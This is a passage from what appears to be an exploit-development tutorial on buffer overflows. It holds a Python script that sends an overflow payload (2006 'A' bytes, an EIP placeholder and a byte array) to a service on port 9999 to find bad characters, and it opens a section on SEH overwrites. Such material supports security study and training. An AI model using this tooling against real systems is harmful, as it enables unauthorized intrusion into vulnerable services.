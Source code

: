 ```python
s.close()
```

### Finding Bad Characters

#### Bad Character Detection Script
```python
#!/usr/bin/env python3
import socket

target_ip = "192.168.1.100"
target_port = 9999

# Generate all possible bytes
badchars = bytearray([
    0x00, 0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07, 0x08, 0x09, 0x0a, 0x0b, 0x0c, 0x0d, 0x0e, 0x0f,
    0x10, 0x11, 0x12, 0x13, 0x14, 0x15, 0x16, 0x17, 0x18, 0x19, 0x1a, 0x1b, 0x1c, 0x1d, 0x1e, 0x1f,
    0x20, 0x21, 0x22, 0x23, 0x24, 0x25, 0x26, 0x27, 0x28, 0x29, 0x2a, 0x2b, 0x2c, 0x2d, 0x2e, 0x2f,
    # ... continue through 0xff
])

# Known bad characters (usually 0x00)
known_bad = [0x00]

# Remove known bad characters
for bad in known_bad:
    if bad in badchars:
        badchars.remove(bad)

offset = 2006
eip = b"B" * 4

payload = b"A" * offset + eip + bytes(badchars)

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target_ip, target_port))
s.send(payload)
s.close()

# In debugger, follow ESP in dump
# Check for missing/mangled characters
```

---

## Structured Exception Handler (SEH) Overwrites

### Understanding SEH

#### SEH Chain Structure
```
Exception Registration Record:
┌─────────────────────────┐
│  Next SEH Record (4B)   │  ← Pointer to next SEH in chain
├─────────────────────────┤
│  SEH Handler (4B)       │  ← Pointer to exception handler
└─────────────────────────┘
```
